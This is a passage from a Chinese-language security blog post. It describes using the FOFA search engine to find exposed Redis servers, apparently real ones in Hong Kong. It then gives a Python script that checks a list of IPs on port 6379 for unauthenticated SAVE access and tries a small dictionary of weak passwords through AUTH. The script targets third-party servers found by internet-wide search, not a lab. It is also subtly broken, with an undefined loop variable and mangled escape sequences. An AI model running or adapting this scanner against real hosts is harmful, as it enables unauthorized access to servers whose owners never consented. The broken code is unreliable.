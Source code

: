 然后他在前辈的经验中找到了知识：

[![](./img/203613/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t017bb02d84a4ca1105.png)

Tk教主曾经说过，只有实践才能提高技术。

<s>（tk：我没说，不是我，别瞎说。）</s>

然后我打开我的好朋友FOFA网络空间资产搜索引擎，让它帮我探寻一下。

<s>（为啥fofa是我的好朋友，因为它送我会员呀QAQ）</s>

[![](./img/203613/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t018cec565ee90e4421.png)

简单搜索一下，发现了很多redis服务器。

<s>（你问我为啥region选择hk，其实我还想选择tw qaq）</s>

虽然搜索结果有很多，但是并不是所有都有漏洞，所以需要验证一下。

只有存在未授权或弱口令的redis服务器才可以进行下一步操作。

然后我找了一个脚本，并修改了一下：

```
import socket
import sys
PASSWORD_DIC=['redis','root','oracle','password','p@aaw0rd','abc123!','123456','admin']
def check(ip, port,timeout):
try:
socket.setdefaulttimeout(timeout)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, int(port)))
s.send("SAVErn")
result = s.recv(1024)
if "OK" in result:
return u"未授权访问"
elif "Authentication" in result:
for pass_ in PASSWORD_DIC:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, int(port)))
s.send("AUTH %srn" %(pass_))
result = s.recv(1024)
if '+OK' in result:
return u"存在弱口令，密码：%s" % (pass_)
except Exception, e:
pass
if __name__ == '__main__':
for ip in open("url.txt"):
ip = line.rstrip()
print ip
port = '6379'
print check(ip,port,timeout=10)
```

直接**s.send(“SAVErn”)**是为了验证是否有权限，因为如果没有save的权限还是不能进行下一步操作。

用这个自动化脚本可以探测开放6379端口的ip是否是存在未授权或弱口令的redis服务器。
